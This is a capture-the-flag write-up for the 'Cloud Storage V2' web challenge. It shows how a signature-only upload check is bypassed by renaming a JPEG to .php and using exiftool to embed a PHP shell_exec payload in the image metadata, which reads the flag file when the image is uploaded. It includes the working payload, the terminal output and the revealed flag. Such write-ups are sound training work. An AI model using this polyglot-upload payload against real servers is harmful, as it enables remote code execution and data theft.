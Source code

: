 ```yaml
---
title: "Cloud Storage V2 [WEB]"
categories: CodeCombat2023
permalink: /ctfs/codecombat2023/cloudstoragev2
---
```


Local File Inclusion leads to Remote Code Execution via PHP Injection.

## 📁 Challenge Description
>I've upgraded the upload system to a new one. You may no longer exploit it now!
>
>`http://cloudstorage.sibersiaga2023.myctf.io/`
>
>flag is in `/home/flag.txt`
>
>Flag format: `sibersiaga{md5hash}`

55.56 points, 9 solves

## 🚩 Solution
The challenge presents a slightly improved security for the file upload functionality on the website. The way it validates if an image file is safe to be uploaded is incomplete and can be bypassed easily. It does check whether it is an image by looking at the file signatures but it doesn't check using the file extension.

Hence, we can start by using a cute penguin image `penguin.jpeg`.

![penguin](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/88cb5623-b1dd-47cf-a128-c27d06ba3b13)

Using `file penguin.jpeg` to check the file type.

```
┌──(kali㉿kali)-[~/finals/web/payloads]
└─$ file penguin.jpeg  
penguin.jpeg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 183x276, components 3
```

Change the file extension from `penguin.jpeg` to `penguin.php`.

```
┌──(kali㉿kali)-[~/finals/web/payloads]
└─$ cp penguin.jpeg penguin.php
```

Check the file type again. We can see that the file type remains unchanged despite the file extension has been modified with `cp` command.

```
┌──(kali㉿kali)-[~/finals/web/payloads]
└─$ file penguin.php
penguin.php: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 183x276, components 3
```

Upload it to the website and check for vulnerabilities.

![cloudstorage1](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/dec3d978-14a7-4df9-bd5d-d215f88474d0)

We concluded that this challenge website is vulnerable to PHP injection attacks. We can inject a PHP shellcode stating the location of the flag (given by the challenge) to execute remotely and retrieve information from the website.

Now, inject a super duper simple PHP shell execution payload into the `penguin.php` using `exiftool`.

```
┌──(kali㉿kali)-[~/finals/web/payloads]
└─$ exiftool -DocumentName='<?php echo shell_exec("cat /home/flag.txt"); ?>' > penguin.php
    1 image files updated

┌──(kali㉿kali)-[~/finals/web/payloads]
└─$ exiftool penguin.php                                    
ExifTool Version Number         : 12.57
File Name                       : d.php
Directory                       : .
File Size                       : 3.5 kB
File Modification Date/Time     : 2023:08:15 09:57:23-04:00
File Access Date/Time           : 2023:08:31 10:59:34-04:00
File Inode Change Date/Time     : 2023:08:15 09:57:48-04:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Exif Byte Order                 : Big-endian (Motorola, MM)
Document Name                   : <?php echo shell_exec('cat /home/flag.txt');?>
X Resolution                    : 1
Y Resolution                    : 1
Resolution Unit                 : None
Y Cb Cr Positioning             : Centered
Image Width                     : 183
Image Height                    : 276
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 183x276
Megapixels                      : 0.051
```

{% capture notice-2 %}
💡 **NOTE**: We tried to inject using `-Note=` and `-Comment=` metadata parameters but it did not give any results. However, we ended up using `-DocumentName=` for the attack, and works. In our opinion, we think that any parameters will give the same results but the procedure of modifying the image file is incorrect.
{% endcapture %}

<div class="notice--info">{{ notice-2 | markdownify }}</div>

We can check the file type to see if our document name has added.

```
┌──(kali㉿kali)-[~/finals/web/payloads]
└─$ file d.php 
d.php: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, Exif Standard: [TIFF image data, big-endian, direntries=5, name=<?php echo shell_exec('cat /home/flag.txt');?>, xresolution=122, yresolution=130, resolutionunit=1], baseline, precision 8, 183x276, components 3
```

Upload the malicious file and we got a hit! The flag is then revealed.

![GGcloudstorage](https://github.com/pikaroot/pikaroot.github.io/assets/107750005/ab0fe0d8-36ce-47c6-8882-3f0d51137175)

***FLAG***: `sibersiaga{9c44f131b9d72f89d9a1c8520c42468d}`
